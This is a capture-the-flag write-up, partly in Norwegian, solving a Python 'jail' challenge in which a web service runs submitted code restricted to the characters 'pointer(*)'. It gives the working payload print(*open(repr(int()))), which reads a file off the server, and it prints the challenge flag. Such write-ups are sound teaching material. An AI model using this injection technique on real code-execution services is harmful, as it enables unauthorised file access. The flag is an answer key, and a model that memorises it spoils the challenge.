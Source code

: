 # null pointer

Utvikler Per Ointer trenger av og til å kjøre python-programmer på webserveren sin. Derfor har han laget en veldig enkel webtjeneste for å sende inn python-programmer og returnere output:

Eksempelkjøring av program: `curl 'http://server/?program=print(repr(repr))'`

For å hindre misbruk er kun 10 forskjellige tegn tillatt i python-programmet: `pointer(*)`

Dessverre viser det seg at dette ikke er godt nok. Hent ut flagget i fila `0` i current directory.

https://helsectf2024-2da207d37b091b1b4dff-null-pointer.chals.io

# Writeup

I started by figuring out what builtins i could use with this snippet from last helsectf:

```python
def valid(s):
    for ch in s:
        if ch not in 'pointer(*)': return False
    return True

for b in dir(__builtins__):
    if valid(b): print(b)
```

gave me this list:

```
int
iter
open
print
repr
```

I checked what `int()` gave and that was 0. So I tried with `print(open(repr(int())))` and got this `<_io.TextIOWrapper name=0 mode='r' encoding='UTF-8'>`

I'm close. After a while I understand that a `*` unpacks a object and returns line by line what is in it which can be printed. So using `print(*open(repr(int())))` gave me the flag.

Explanation:

```
int() always returns 0
repr() returns a string representation of the object so '0'.
open() opens a file with the name '0' and returns a file object.
*open() unpacks the file object and passes the lines as variables to the parent function.
print() prints the variables passed
```

# Flag

```
helsectf{z3r0_p0inters_g1ven}
```